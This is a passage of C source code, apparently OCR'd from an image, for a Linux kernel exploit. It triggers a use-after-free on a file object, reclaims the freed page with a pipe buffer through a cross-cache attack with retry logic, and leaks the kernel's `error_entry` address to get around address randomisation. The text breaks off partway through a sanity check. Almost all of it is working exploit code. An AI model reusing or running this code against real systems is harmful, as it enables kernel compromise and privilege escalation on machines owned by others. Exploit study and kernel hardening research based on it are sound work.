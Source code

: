 ```
// Here, all we're doing is determing what side of the page the UAF file is on,
// if its on the front half of the page, the back half is our scratch space
// and vice versa
void set_scratch_space(void)
{
    g_scratch = g_pipe_buf;
    if (g_off < 0x500) { g_scratch += 0x500; }
}

// We failed cross-cache stage, either because we didnt replace UAF object
void cc_fail(void)
{
    cc_reset();
    close(g_uaf_fd);
    g_uaf_fd = -1;
    release_pipe();
    create_pipe();
    sleep(1);
}

void write_pipe(unsigned char *buf)
{
    if (write(g_pipe.fd[PIPE_WRITE], buf, 4096) == -1)
    {
        err("`write()` failed");
    }
}

int main(int argc, char *argv[])
{
    info("Setting up exploit environment...");
    setup_env();

    // Create a debug buffer
    unsigned char buf[4096] = { 0 };
    memset(buf, 'A', 4096); 

retry_cc:
    // Do cross-cache attempt
    info("Attempting cross-cache...");
    do_cc();

    // Replace UAF file (and page) with pipe page
    write_pipe(buf);

    // Try to `lseek()` which should fail if we succeeded
    if (lseek(g_uaf_fd, 0, SEEK_SET) != -1)
    {
        printf("[!] Cross-cache failed, retrying...");
        cc_fail();
        goto retry_cc;
    }

    // Success
    info("Cross-cache succeeded");
    sleep(1);

    // Leak the `error_entry` pointer
    uint64_t error_entry = read_8_at(ERROR_ENTRY_ADDR);
    info("Leaked `error_entry` address: 0x%lx", error_entry);

    // Make sure it seems kernel-ish
    if ((uint16_t)(error_entry >> 48) != 0xFFFF)
```